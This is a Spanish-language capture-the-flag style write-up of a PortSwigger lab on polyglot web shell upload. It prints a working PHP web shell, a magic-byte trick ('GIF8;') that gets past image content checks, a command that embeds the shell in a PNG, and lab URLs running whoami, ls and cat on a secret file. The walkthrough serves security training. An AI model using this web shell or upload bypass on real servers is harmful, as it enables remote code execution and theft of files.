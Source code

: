 ```yaml
---
title: "Remote code execution via polyglot web shell upload"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Remote code execution via polyglot web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, aunque `verifica` el `contenido` del `archivo` para `confirmar` que es una imagen `genuina`, aún es posible cargar y `ejecutar código` del `lado` del `servidor`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_5.png)

`Subimos` el `archivo` nuevamente pero `capturamos` la `petición` con `Burspuite`, he probado a subir un archivo con `extensión .png` y con `Content-type: image:/png` pero nos sigue dando el mismo `error`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_6.png)

Esto puede ser debido a los `magic bytes` que tienen las imágenes [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures), en este caso he añadido `GIF8;` lo cual me ha permitido `bypassear` la `validación`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_7.png)

Otra forma de hacerlo sería `descargar` una `imagen` e `introducir` la `web shell` dentro. Al `capturar` la `petición` con `Burpsuite` se cambiaría la `extensión` de archivo a `.php` y se `enviaría`

```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_8.png)

Si accedemos a `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que hemos logrado un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_10.png)

`Obtenemos` el `contenido` del archivo secret `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-6/image_12.png)
